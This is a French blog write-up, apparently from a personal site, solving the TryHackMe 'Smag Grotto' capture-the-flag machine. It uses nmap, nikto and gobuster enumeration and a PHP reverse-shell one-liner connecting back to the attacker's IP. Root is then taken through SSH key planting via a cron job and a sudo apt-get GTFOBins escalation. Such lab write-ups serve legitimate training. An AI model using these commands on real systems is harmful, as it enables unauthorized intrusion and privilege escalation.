 ```yaml
---
title: Smag Grotto
slug: smag-grotto
date: 2022-04-19T20:00:00+02:00
image: https://azlinux.fr/uploads/9bb0d72deccee46be9ea72cbdf51f956.webp
categories:
    - TryHackMe
    - Capture the flag
--- 
```


Voici la solution pour la machine Smag Grotto sur TryHackMe. Tout d'abord, nous allons lancer un scan pour voir quels ports sont ouverts sur la machine.

```bash
nmap -A 10.10.150.39
```

Il y a deux ports ouverts, dont le serveur web qui nous intéresse et voici la page d'accueil :

![](https://azlinux.fr/uploads/2a459b3460d74ed70d4351f929ae947b.webp)

Comme nous ne trouvons rien de pertinent sur la page d'accueil, nous utilisons Nikto pour essayer de trouver une page cachée et ainsi nous trouvons un répertoire /mail et voici le contenu de la page :

```bash
nikto -h http://10.10.150.39
```

![](https://azlinux.fr/uploads/32fa1b468c377e46afa0f1addbd230d1.webp)

Nous arrivons sur une page contenant une liste d'emails où le premier email nous fournit un fichier contenant une trace réseau et avec Wireshark nous trouvons un nom d'utilisateur et un mot de passe

![](https://azlinux.fr/uploads/c15333a8e644c6d588a205882bea0818.webp)

Pour pouvoir se connecter à cette page d'administration, nous devons modifier le fichier hosts avec l'adresse IP pointant vers le nom de domaine development.smag.thm trouvé avec cette commande :

```bash
gobuster vhost -u http://10.10.150.39 -w /usr/share/worldlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
```

![](https://azlinux.fr/uploads/fd5c4289be54992f0d031b06280f33f2.webp) ![](https://azlinux.fr/uploads/5822c98a64b962d68f727e31e4f29616.webp)

Ainsi, après s'être connecté, nous avons accès à une interface pour exécuter des commandes sur la machine. Nous commençons par exécuter Pwncat puis nous recherchons un Reverse Shell sur [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) afin que la cible se connecte à notre machine pour obtenir un shell.

```bash
pwncat-cs -lp 1234
```

```bash
php -r '$sock=fsockopen("10.8.74.196",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

![](https://azlinux.fr/uploads/036cf2a4a1171e42f47156c78a8a6477.webp)

Ensuite, nous découvrons qu'une commande est exécutée toutes les minutes. Nous pouvons donc l'exploiter et nous connecter en tant que l'utilisateur jake.

```bash
ssh-keygen -o
```

```bash
ssh -i /home/baptiste/id_rsa jake@10.10.150.39
```

Lorsque nous avons récupéré le flag user nous voyons que le binaire apt-get est exploitable donc nous trouvons sur le site [GTFOBins](https://gtfobins.github.io/gtfobins/apt-get/#sudo) la commande pour devenir super utilisateur.

```bash
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/bash
```

![](https://azlinux.fr/uploads/06a506918534221a33053234c97a46c2.webp)
